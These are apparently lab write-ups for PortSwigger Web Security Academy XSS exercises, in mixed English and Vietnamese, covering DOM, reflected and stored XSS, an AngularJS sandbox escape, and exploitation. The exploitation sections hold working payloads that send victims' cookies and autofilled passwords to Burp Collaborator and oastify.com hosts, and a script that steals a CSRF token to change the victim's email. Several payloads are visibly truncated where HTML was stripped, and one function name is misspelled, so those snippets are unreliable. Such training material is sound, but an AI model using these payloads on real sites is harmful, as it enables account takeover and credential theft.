The web takes the content of the `storeId` param and `document.write` it to a `<option>` tag inside a `<select>` tag. We need to break out of both `<option>` tag and `<select>` tag, since `<select>` only allows valid sub tags like `<option>` or `<optgroup>`. After that, you can use any tags you want to trigger `alert()` command:
```
</option></select>
```

__Complete Attack payload:__
```
https://0acf008f04bd45ed809c030d008300b5.web-security-academy.net/product?productId=8&storeId=%3C/option%3E%3C/select%3E%3Cimg%20src=1%20onerror=%22alert()%22%3E
```

#### Lab: Lab: DOM XSS in `innerHTML` sink using source `location.search`
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`. 

The innerHTML sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like img or iframe. Event handlers such as onload and onerror can be used in conjunction with these elements. For example:
```html
element.innerHTML='...  ...'
```

__Complete attack payload:__
```
0a6f005d04521e9d80c1032c002b002f.web-security-academy.net/?search=</span>
```
or
```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3C/span%3E%3Cimg%20src=1%20onerror=%22alert()%22%3E
```

#### Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source
If a JavaScript library such as jQuery is being used, look out for sinks that can alter DOM elements on the page. For instance, jQuery's `attr()` function can change the attributes of DOM elements. If data is read from a user-controlled source like the URL, then passed to the `attr()` function, then it may be possible to manipulate the value sent to cause XSS. For example, here we have some JavaScript that changes an anchor element's href attribute using data from the URL: 
```js
$(function() {
	$('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl'));
});
```
You can exploit this by modifying the URL so that the location.search source contains a malicious JavaScript URL. After the page's JavaScript applies this malicious URL to the back link's href, clicking on the back link will execute it:

```js
?returnUrl=javascript:alert(document.domain)
```

Now inspect the script in the submit feedback section:
```html
<script>
   $(function() {
      $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
   });
</script>
```

__Complete payload:__
```
https://YOUR-LAB-ID.web-security-academy.net/feedback?returnPath=javascript:alert()
```

The payload will result in changing the `href` attribute of elements with `id=backLink`

```html
<a id="backLink" href="javascript:alert()">Back</a>
```


#### Lab: DOM XSS in jQuery selector sink using a hashchange event
__POC__

Another potential sink to look out for is jQuery's `$()` selector function, which can be used to inject malicious objects into the DOM.

jQuery used to be extremely popular, and a classic DOM XSS vulnerability was caused by websites using this selector in conjunction with the `location.hash` source for animations or auto-scrolling to a particular element on the page. This behavior was often implemented using a vulnerable hashchange event handler, similar to the following:
```
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```
As the hash is user controllable, an attacker could use this to inject an XSS vector into the $() selector sink. More recent versions of jQuery have patched this particular vulnerability by preventing you from injecting HTML into a selector when the input begins with a hash character (#). However, you may still find vulnerable code in the wild.

To actually exploit this classic vulnerability, you'll need to find a way to trigger a hashchange event without user interaction. One of the simplest ways of doing this is to deliver your exploit via an iframe:
```
<iframe src="https://vulnerable-website.com#" onload="this.src+=''">
```
In this example, the src attribute points to the vulnerable page with an empty hash value. When the iframe is loaded, an XSS vector is appended to the hash, causing the hashchange event to fire. 


__Lab Complete payload:__
```
<iframe src="https://0a0f0058038b40bf80d7037500e100b9.web-security-academy.net/#" onload ="this.src+=''"></iframe>
```

#### Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
__POC__

If a framework like AngularJS is used, it may be possible to execute JavaScript without angle brackets or events. When a site uses the ng-app attribute on an HTML element, it will be processed by AngularJS. In this case, AngularJS will execute JavaScript inside double curly braces that can occur directly in HTML or inside attributes. 

Cơ chế AngularJS Scope
1. **AngularJS Scope (`$scope`):** Khi khởi tạo ứng dụng qua `ng-app`, AngularJS tạo ra một môi trường cô lập (Sandbox/Scope) trên trang HTML.
2. **Hạn chế của biểu thức `{{ ... }}`:** Các biểu thức đặt trong cặp dấu ngoặc nhọn đôi `{{ ... }}` **chỉ có thể đọc và gọi các biến/hàm được khai báo bên trong `$scope`** của ứng dụng đó.
3. **Cơ chế cách ly với `window`:** AngularJS cố tình chặn các lệnh gọi trực tiếp đến môi trường toàn cục (Global Scope / `window`). Do đó, nếu chèn trực tiếp payload XSS truyền thống như `{{alert(1)}}`, AngularJS sẽ tìm hàm `alert` trong `$scope` $\rightarrow$ trả về `undefined` $\rightarrow$ **Tấn công thất bại**.

Để thực thi được JavaScript toàn cục (như `alert()`, `print()`, đánh cắp cookie), kẻ tấn công cần thoát khỏi sự kiểm soát của AngularJS Scope để vươn tới `window` object.

* Trong JavaScript, mọi hàm (Function Object) đều kế thừa thuộc tính `.constructor` trỏ về **`window.Function`** (Lớp khởi tạo hàm toàn cục của trình duyệt).
* `$eval` là một phương thức/hàm có sẵn trong mọi `$scope` của AngularJS.

Ý tưởng: khởi tạo một constructor của đối tượng `$eval` luôn có sẵn trong `$scope` và execute constructor này

__Complete payload__

Insert payload vào search bar:
```html
{{ $eval.constructor('alert(1)')() }}
```

#### Lab: Reflected DOM XSS

__POC__

__Solution__

When a search is performed, the application loads and executes the script located at `/resources/js/searchResults.js`
```js
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();
   ...
```
The function is invoked immediately after its declaration:
```html
<script>search('search-results')</script>
```

Data flow:
- Source: window.location.search retrieves the query string from the current URL and appends it to the /search-results endpoint.
- Server Reflection: The server processes the supplied search term and returns it within a JSON response:. 
```json
{"results":[],"searchTerm":"testing"}
```

- Sink: The response (this.responseText) is concatenated into a JavaScript statement and executed through eval(), causing the returned data to be interpreted as executable code.


Now the idea is pretty clear: the searchResultsObj will receive this JSON object and begin displaying information. What we want to do is break out of the JSON object and execute our `alert()`. The application did perform a loose sanitation, where it escapes our first `"`, but that alone cant stop a XSS attack.

Payload (insert this to the search bar or the URL):
```js
\"};alert()//
```

Server's response
```json
{"results":[],"searchTerm":"\"};alert()//"}
```

Resulting code:
```js
var searchResultsObj = {"results":[],"searchTerm":""};alert()//"}
```

#### Lab: Stored DOM XSS
Exploit a **Stored DOM XSS** vulnerability by injecting a payload into a blog comment. The malicious input is stored on the server and later executed in victims' browsers when the application renders comments using an unsafe DOM sink.

When a blog post is loaded, the application retrieves comments using the script located at:

```javascript
/resources/js/loadCommentsWithVulnerableEscapeHtml.js
```

```javascript
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();

    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };

    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();
}
```

The function is executed automatically when the page loads:

```html
<script>loadComments('/post/comment')</script>
```


Before rendering user-controlled data, the application attempts to sanitize HTML:

```javascript
function escapeHTML(html) {
    return html.replace('<', '&lt;')
               .replace('>', '&gt;');
}
```

However, this implementation is flawed because `String.replace()` only replaces the **first occurrence** of each character.

For example:

```javascript
escapeHTML('<>')
```

returns:

```html
&lt;&gt;
```

Only the first `<` and first `>` are encoded, leaving the malicious tag intact.

__VULN__


The author name is rendered using `innerHTML`:

```javascript
if (comment.author) {
    if (comment.website) {
        let websiteElement = document.createElement("a");
        websiteElement.setAttribute("id", "author");
        websiteElement.setAttribute("href", comment.website);
        firstPElement.appendChild(websiteElement)
    }

    let newInnerHtml =
        firstPElement.innerHTML +
        escapeHTML(comment.author);

    firstPElement.innerHTML = newInnerHtml;
}
```

The dangerous operation is:

```javascript
firstPElement.innerHTML = newInnerHtml;
```

Because untrusted data is inserted into an `innerHTML` sink, any HTML that bypasses the weak filter will be interpreted and rendered by the browser.


__Data Flow Analysis__

The attacker submits a malicious value through the **Name** field of the comment form:

```html
<>"</a>
```

The application stores this value on the server as part of the comment.

The comment is persisted server-side and later returned in the AJAX response:

```json
{
  "author":"<>\"</a>",
  "website":"https://attacker.com"
}
```

At this point the payload is treated as regular data and no effective sanitization is applied.


The browser retrieves all comments:

```javascript
let comments = JSON.parse(this.responseText);
```

The application then calls:

```javascript
escapeHTML(comment.author)
```

Because only the first angle brackets are encoded, the payload becomes:

```html
&lt;&gt;"</a>
```

The initial `<>` pair acts as a bait to consume the ineffective sanitization.


Sink

If a website value is supplied, the page initially generates:

```html
<a id="author" href="https://attacker.com"></a>
```

The application concatenates the author value:

```javascript
let newInnerHtml =
    firstPElement.innerHTML +
    escapeHTML(comment.author);
```

Resulting content:

```html
<a id="author" href="https://attacker.com"></a>
&lt;&gt;"</a>
```

Finally, the content is injected back into the DOM:

```javascript
firstPElement.innerHTML = newInnerHtml;
```
Because `innerHTML` parses the string as HTML markup, the browser creates a real `` element.

Finally, the innerHTML sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like img or iframe. 


__Final payload__


Inserted into the Name field:

```html
<>"</a>
```

### Exploiting cross-site scripting vulnerabilities
Doing real exploits instead of printing out alerts
#### Lab: Exploiting cross-site scripting to steal cookies
Stealing cookies is a traditional way to exploit XSS. Most web applications use cookies for session handling. You can exploit cross-site scripting vulnerabilities to send the victim's cookies to your own domain, then manually inject the cookies into the browser and impersonate the victim.

In practice, this approach has some significant limitations:

- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the HttpOnly flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.


The vuln is now at the comment field, not the website in the comment section. Make sure to not follow the trail of previous labs. Insert a script to perform a post request to Burp Colab server, with the victim's `document.cookie` as the body.
```html
<script>
fetch('https://BURP-COLLAB-SUB-DOMAIN', {
method: 'POST',
mode: 'no-cors',
body: document.cookie,
});
</script>
```

Look at the request body on captured on Burp Collab interaction history, and there you have the sessionId. Send any get request in the website with the new sessionId you got to solve the

Burp Collab server opens both 80 and 443 ports in theory, but requests sent through 80 (http) will be blocked by the browser Mixed Content Block mechanism. This took me a lot of time to realize. Here is the console output when we try to send a request through the 80 port:


1. Cơ chế bảo vệ của Trình duyệt (Mixed Content Block)

Khi bạn đang thực thi đoạn mã script trên một trang web đích đang chạy https:// (được mã hóa an toàn), trình duyệt sẽ thiết lập một vùng chạy an toàn (Secure Context).

Nếu bạn fetch tới http:// (Cổng 80 - Không mã hóa): Trình duyệt sẽ coi hành động này là một mối nguy hiểm bảo mật. Nếu nó cho phép gửi đi, một kẻ tấn công đứng giữa mạng (Man-in-the-Middle) có thể dễ dàng đọc trộm hoặc sửa đổi dữ liệu (ở đây là cookie dữ liệu nhạy cảm) đang được gửi đi.

Do đó, trình duyệt sẽ chặn đứng (Block) ngay lập tức lệnh fetch() tại máy của bạn trước khi request đó kịp rời khỏi máy để ra ngoài Internet. Đó là lý do tại sao Burp Collaborator (cổng 80) hoàn toàn không nhận được một tín hiệu nào – vì gói tin chưa bao giờ được gửi đi.


2. Tại sao https:// lại hoạt động mượt mà?

Khi bạn đổi payload sang https:// (Cổng 443), luồng dữ liệu gửi từ trình duyệt đến Server Burp Collaborator đã được mã hóa bằng giao thức TLS/SSL.

Trình duyệt nhận thấy đây là một kết nối an toàn (Secure sang Secure), không vi phạm chính sách Mixed Content nên nó cho phép gói tin đi qua.
#### Lab: Exploiting cross-site scripting to capture passwords
The thing with autofill credentials (or other input fields) is that the brower will recognized fields with familiar `name` then fill it with saved values. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain. This technique avoids most of the problems associated with stealing cookies, and can even gain access to every other account where the victim has reused the same password. 


Submit the following payload in a blog comment, replace the url with your Burp Collab subdomain.

```html
<input name=username id=username >
<input name=password id=password onchange="if(this.value.length)exiltrate()">
<script>
   var u = document.getElementById('username').value;
   var p = document.getElementById('password').value;
   function exfiltrate() {
   fetch('https://fyhy6v6372gp8yh7vlk3ng9jtaz1nsbh.oastify.com', {
      method: 'POST',
      mode: 'no-cors',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({
         username: u,
         password: p
      })
   });
   }
</script>
```
#### Lab: Exploiting XSS to bypass CSRF defenses
__POC__

XSS enables an attacker to do almost anything a legitimate user can do on a website. By executing arbitrary JavaScript in a victim's browser, XSS allows you to perform a wide range of actions as if you were the victim user. For example, you might make a victim send a message, accept a friend request, commit a backdoor to a source code repository, or transfer some Bitcoin.

Some websites allow logged-in users to change their email address without re-entering their password. If you've found an XSS vulnerability on one of these sites, you can exploit it to steal a CSRF token. With the token, you can change the victim's email address to one that you control. You can then trigger a password reset to gain access to the account.

This type of exploit combines XSS (to steal the CSRF token) with the functionality typically targeted by CSRF. While traditional CSRF is a "one-way" vulnerability, where the attacker can induce the victim to send requests but cannot see the responses, XSS enables "two-way" communication. This enables the attacker to both send arbitrary requests and read the responses, resulting in a hybrid attack that bypasses anti-CSRF defenses. 

__Solution__

We need to do two things in order to solve the lab:
- Get the victim's csrf token
- Change the victim's email with the stolen csrf token

First, nspect the web and you can see that there's a hidden `input` tag that stores the value of the csrf token `id=csrf`. But you can query it using `document.querySelector`, since it is always loaded after the script. You need to use a workaround: You fetch the web's HTML, and then you query.
```html
<script>
   fetch('/my-account')
      .then(response => response.text())
      .then(htmlText => {
         // 2. Parse the HTML text into a readable DOM object
         let parser = new DOMParser();
         let doc = parser.parseFromString(htmlText, 'text/html');
      });
</script>
```

After you get the token, the second task is easy. Log on to your account, intercept the email change package. you will see that the body requires two fields: the new email address and the csrf token. Here is the payload i used:
```js
fetch('/my-account/change-email', {
   method: 'POST',
   body: 'email=solitude@gmail.com&csrf=STOLEN-TOKEN-HERE'
});
```

Here's the complete payload:
   
```html
<script>
// 1. Fetch the account page to see the current CSRF token
fetch('/my-account')
    .then(response => response.text())
    .then(htmlText => {
        // 2. Parse the HTML text into a readable DOM object
        let parser = new DOMParser();
        let doc = parser.parseFromString(htmlText, 'text/html');
        
        // 3. Extract the hidden CSRF token value
        let csrfToken = doc.querySelector('input[name="csrf"]').value;

        // 4. Force the victim's browser to send the malicious POST request
        fetch('/my-account/change-email', {
            method: 'POST',
            body: 'email=solitude@gmail.com&csrf=' + csrfToken
        });
    });
</script>
```
### Mitigation

Để ngăn chặn triệt để lỗ hổng này, nhà phát triển không nên chỉ mã hóa các ký tự đặc biệt (như `<`, `>`, `"`, `'`), mà cần thực hiện các biện pháp sau:

1. **Whitelisting Protocol:** Chỉ chấp nhận các URL bắt đầu bằng giao thức an toàn như `http://`, `https://` hoặc các đường dẫn tương đối bắt đầu bằng `/`.
2. **Sử dụng thư viện Sanitizer:** Sử dụng các thư viện kiểm duyệt dữ liệu uy tín (như *DOMPurify*) để tự động loại bỏ các URL chứa giao thức `javascript:` nguy hại.